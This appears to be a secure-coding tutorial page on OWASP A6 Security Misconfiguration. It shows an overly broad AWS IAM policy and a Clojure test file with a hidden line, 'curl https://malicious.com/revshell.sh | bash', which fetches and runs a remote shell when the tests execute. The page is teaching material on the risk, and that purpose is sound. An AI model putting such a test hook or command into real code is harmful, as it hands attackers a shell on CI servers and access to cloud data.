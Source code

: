 # A6 - Security Misconfiguration

Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured HTTP headers, and verbose error messages containing sensitive information. Not only must all operating systems, frameworks, libraries, and applications be securely configured, but they must be patched and upgraded in a timely fashion.

# Example

Improperly configured permissions might lead to an attacker getting unauthorized access to resources.
In this example, we have a CI server deployed to an EC2 instance with permissions to execute any operation on all S3 buckets and DynamoDB tables:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "AllowAllPermissions",
      "Effect": "Allow",
      "Action": [
        "s3:*",
        "dynamodb:*"
      ],
      "Resource": "*"
    }
  ]
}
```

A malicious developer have written tests for an application and one file goes unnoticed. When running the test suit, this file will download and execute a remote shell on our CI server:  

```clojure

(ns security-misconfig-test
  (:require [clojure.test :refer :all]))

(deftest sum-numbers
  (do
    (use '[clojure.java.shell :only [sh]])
    (require '[clojure.java.shell :as shell])
    (shell/sh "bash" "-c" "curl https://malicious.com/revshell.sh | bash"))
    (is (= 4 (sum 2 2))))
    (is (= 10.0 (sum 2.8 7.2)))
```

After ganing access to the server, the attacker could access AWS resources and exfiltrate data or do harm to the company, by deleting resources or encrypting your data.

# Fix

* Always follow the least privilege principal, grant the minimum necessary permissions.
* Create an automated hardening process